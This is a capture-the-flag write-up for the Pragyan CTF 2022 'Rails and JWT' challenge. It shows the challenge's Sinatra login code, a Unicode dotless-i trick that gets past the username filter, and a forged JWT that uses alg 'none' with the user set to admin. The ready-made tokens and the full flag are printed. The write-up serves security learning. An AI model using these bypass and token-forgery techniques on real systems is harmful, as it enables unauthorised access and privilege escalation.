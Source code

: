 # Pragyan CTF 2022: Rails and JWT
## Write-Up

1) When you inspect the HTML code using browser dev tool, you will find a hint which emphasis on the term "ROBOT", which basically want us to view the robots.txt file.

2) When you check that route you will get the source code for authentication part, which is written in ruby.

```rb
    require 'sinatra/base'
    require 'sinatra'
    require "sinatra/cookies"

    get '/' do
        if request.cookies['auth']
            @user = getUsername()           # getUsername() - Method to get username from cookies 
            if @user.upcase == "MICHAEL"
                return erb :michael
            end
            return erb:index
        else
            return erb :index
        end
    end

    post '/login' do
        user = params['username'].to_s[0..20].strip
        password = params['password'].to_s[0..20]
        if user =~ /[A-Z]/ or user == 'michael'
            info = "Invalid Username/Password"
            return erb :login, :locals => {:info => info}

        elsif password == "whatever" and user.upcase == "MICHAEL"
            set_Cookies(user)

        else
            info = "Try login with michael's credential"
            return erb :login, :locals => {:info => info}
        end
        redirect '/'
    end
```

3) By reviewing this code we can get an idea about the login credentials which are basically 

```
    username: michael
    password: whatever
```

4) But here the "michael" username is filtered from the input. This we can be bypassed by making use of unicode "i".So, the new credentials will become 
```
    username: mıchael
    password: whatever
```

5) By providing these credentials, we can bypass that "if" statement and when these characters gets converted into uppercase it will automatically change as 
```
    username: MICHAEL
```
and that unicode "i" also gets converted to proper capital "I" .

6) Once you logged in, you will find the 1st half of the flag
```
    p_ctf{un1c0de_4nd
```

7) And now you need to get admin privilege, to find rest of the flag. For doing that you need to exploit the JWT token.
```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXUyJ9.eyJ1c2VyIjoibcSxY2hhZWwifQ.eXHXJZlQbME7lMLAnkGjqLhGFLXHuBD06mHMbaruqiM
```

8) On decrypting this you will get,
```
{"alg": "HS256","typ": "JWS"}.{"user": "mıchael"}.eXHXJZlQbME7lMLAnkGjqLhGFLXHuBD06mHMbaruqiM
```

9) On changing the "alg" part to "none", "user" part to "admin" and by removing the signature of the token we can able to bypass the authorization to admin.
The modified JWT token looks like
```
    {"alg":"none","typ":"JWS"}.{"user":"admin"}.
```
On encoding,
```
    eyJhbGciOiJub25lIiwidHlwIjoiSldTIn0.eyJ1c2VyIjoiYWRtaW4ifQ.
```

10) Now when you inject your modified token in the cookies, you can able to login as admin and get the 2nd half of the flag 
```
    _j3t_m4kes_fu7}
```

### Flag for this challenge is 
```
    p_ctf{un1c0de_4nd_j3t_m4kes_fu7}
```
